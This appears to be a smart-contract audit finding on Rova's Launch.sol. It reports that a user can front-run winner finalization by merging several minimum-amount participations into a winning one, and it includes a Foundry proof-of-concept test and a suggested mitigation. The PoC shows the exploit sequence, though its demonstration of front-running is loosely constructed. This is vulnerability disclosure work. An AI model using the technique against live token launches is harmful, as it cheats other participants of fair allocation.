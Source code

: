 Bouncy Merlot Manatee

Medium

# User can participate launchGroup using minTokenAmount with muptiple launchParticipationId

### Summary

A user can participate in a launch group using `minTokenAmount` with multiple `launchParticipationId`s. However, if one of their `launchParticipationId`s is selected as a winner, they can front-run the `finalizeWinners` call and use `updateParticipation` to merge their other `launchParticipationId`s into the winning one, effectively increasing their token amount. This creates an unfair advantage over other participants.

### Root Cause
<https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L215#L219>
In the Launch.sol::finalizeWinners()
```solidity
    function finalizeWinners(bytes32 launchGroupId, bytes32[] calldata winnerLaunchParticipationIds)
        external
        onlyRole(OPERATOR_ROLE)
        nonReentrant
        onlyLaunchGroupStatus(launchGroupId, LaunchGroupStatus.ACTIVE)
    {
```

and In the Launch.sol::updateParticipation()
```solidity
    function updateParticipation(UpdateParticipationRequest calldata request, bytes calldata signature)
        external
        nonReentrant
        whenNotPaused
        onlyLaunchGroupStatus(request.launchGroupId, LaunchGroupStatus.ACTIVE)
    {
```
They can be called at the same time period `ACTIVE`

### Internal Pre-conditions

1.user participate in a launch group using `minTokenAmount` with multiple `launchParticipationId`s
2.operator select one of user's `launchParticipationId` as winner
3.user front-run call `updateParticipation` merge their other `launchParticipationId`s into the winning one

### External Pre-conditions

None

### Attack Path

1.user participate multiple times
2.user updateParticipation

### Impact

Users are incentivized to split their `currentAmount` into multiple `minTokenAmount` entries

### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {IAccessControl} from "@openzeppelin/contracts/access/IAccessControl.sol";
import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    CancelParticipationRequest,
    ParticipationInfo,
    UpdateParticipationRequest
} from "../src/Types.sol";
import "forge-std/Console2.sol";

contract LaunchfinalizeWinnersTest is Test, Launch, LaunchTestBase {
    LaunchGroupSettings public settings;
    ParticipationRequest[] public requests;

    bytes32[] public participationIds;
    address[] public users;

    function setUp() public {
        _setUpLaunch();

        settings = _setupLaunchGroup();

        // Setup multiple participations
        participationIds = new bytes32[](2);
        participationIds[0] = bytes32(uint256(1));
        participationIds[1] = bytes32(uint256(2));
        users = new address[](2);
        users[0] = user1;
        users[1] = user2;

        requests = _setupParticipations(participationIds, users);
    }

    function _createUpdateParticipationRequest(uint256 newTokenAmount)
        internal
        view
        returns (UpdateParticipationRequest memory)
    {
        uint256 launchTokenDecimals = launch.tokenDecimals();
        return UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: "prevLaunchPid",
            newLaunchParticipationId: bytes32(uint256(1)),
            userId: testUserId,
            userAddress: user1,
            tokenAmount: newTokenAmount * 10 ** launchTokenDecimals,
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
    }

    function test_FinalizeWinners_FrontRun() public {
        //user1 participate usingnewLaunchPid
        // Prepare participation request
        ParticipationRequest memory request = _createParticipationRequest();
        request.launchParticipationId = "prevLaunchPid";
        bytes memory signature = _signRequest(abi.encode(request));

        vm.startPrank(user1);
        uint256 currencyAmount = _getCurrencyAmount(request.launchGroupId, request.currency, request.tokenAmount);
        currency.approve(address(launch), currencyAmount);

        // Participate
        launch.participate(request, signature);

        vm.startPrank(user1);
        UpdateParticipationRequest memory updateRequest = _createUpdateParticipationRequest(2000);
        updateRequest.prevLaunchParticipationId = "prevLaunchPid";
        updateRequest.newLaunchParticipationId = bytes32(uint256(1));
        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));
        uint256 updatedCurrencyAmount =
            _getCurrencyAmount(updateRequest.launchGroupId, updateRequest.currency, updateRequest.tokenAmount);
        currency.approve(address(launch), updatedCurrencyAmount);

        // Update participation
        launch.updateParticipation(updateRequest, updateSignature);

        vm.startPrank(operator);

        // Select winners
        launch.finalizeWinners(testLaunchGroupId, participationIds);

        // Verify winners
        ParticipationInfo[] memory infos = new ParticipationInfo[](participationIds.length);
        for (uint256 i = 0; i < participationIds.length; i++) {
            ParticipationInfo memory info = launch.getParticipationInfo(participationIds[i]);
            if (i == 0) assert(info.currencyAmount == 2_000e18);
            if (i == 1) assert(info.currencyAmount == 1_000e18);
        }
    }
```

### Mitigation

Ensure `settings.endsAt` is passed before invoke `finalizeWinners`